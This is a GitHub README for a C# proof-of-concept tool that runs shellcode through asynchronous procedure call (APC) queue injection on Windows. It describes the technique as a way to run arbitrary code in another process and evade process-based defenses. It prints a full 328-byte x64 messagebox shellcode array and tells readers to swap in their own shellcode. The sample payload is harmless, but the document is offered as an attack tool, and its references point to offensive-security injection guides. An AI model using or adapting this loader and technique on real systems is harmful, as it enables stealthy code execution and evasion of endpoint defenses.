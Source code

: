 # APC_ShellcodeExecution_CSharp

blog link: may not gonna update

- Adversaries may inject malicious code into processes via the asynchronous procedure call (APC) queue in order to evade process-based defenses as well as possibly elevate privileges. 
- APC injection is a method of executing arbitrary code in the address space of a separate live process.
- QueueUserAPC function, Adds a user-mode asynchronous procedure call (APC) object to the APC queue of the specified thread.
- Only tested in Win10/x64, works fine, It should works on x86.
- The shellcode below is a message 
```
/*   Messagebox shellcode   */
            byte[] buf1 = new byte[328] {
                 0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x00, 0x00,
                 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
                 0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
                 0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0x0f, 0xb7, 0x4a,
                 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02,
                 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed, 0x52,
                 0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
                 0x01, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xc0,
                 0x74, 0x6f, 0x48, 0x01, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44,
                 0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e,
                 0x41, 0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31,
                 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75,
                 0xf1, 0x3e, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd6,
                 0x58, 0x3e, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x3e, 0x41,
                 0x8b, 0x0c, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x3e,
                 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
                 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20,
                 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12,
                 0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7, 0xc1, 0x00, 0x00, 0x00,
                 0x00, 0x3e, 0x48, 0x8d, 0x95, 0x1a, 0x01, 0x00, 0x00, 0x3e, 0x4c, 0x8d,
                 0x85, 0x35, 0x01, 0x00, 0x00, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83,
                 0x56, 0x07, 0xff, 0xd5, 0xbb, 0xe0, 0x1d, 0x2a, 0x0a, 0x41, 0xba, 0xa6,
                 0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c,
                 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a,
                 0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x48, 0x65, 0x6C, 0x6C, 0x6F,
                 0x20, 0x77, 0x6F, 0x72, 0x6C, 0x64, 0x20, 0x76, 0x69, 0x61, 0x20, 0x73,
                 0x79, 0x73, 0x63, 0x61, 0x6C, 0x6C, 0x00, 0x41, 0x50, 0x49, 0x20, 0x54,
                 0x65, 0x73, 0x74, 0x00
             };
```

## Usage
1. Just replace the shellcode with your own
- Messagebox
	![avatar](https://raw.githubusercontent.com/Kara-4search/ProjectPics/main/APC_ShellcodeExecution.png)

## TO-DO list
- None

## Update history
- None

## Reference link:
	1. http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FAPC%2FNtQueueApcThread.html
	2. https://idiotc4t.com/code-and-dll-process-injection/apc-and-nttestalert-code-execute
	3. https://idiotc4t.com/code-and-dll-process-injection/apc-injection
	4. https://idiotc4t.com/code-and-dll-process-injection/apc-thread-hijack
	5. https://www.ired.team/offensive-security/code-injection-process-injection/shellcode-execution-in-a-local-process-with-queueuserapc-and-nttestalert
	6. https://www.ired.team/offensive-security/code-injection-process-injection/early-bird-apc-queue-code-injection
	7. https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection
	8. https://attack.mitre.org/techniques/T1055/004/
	9. https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc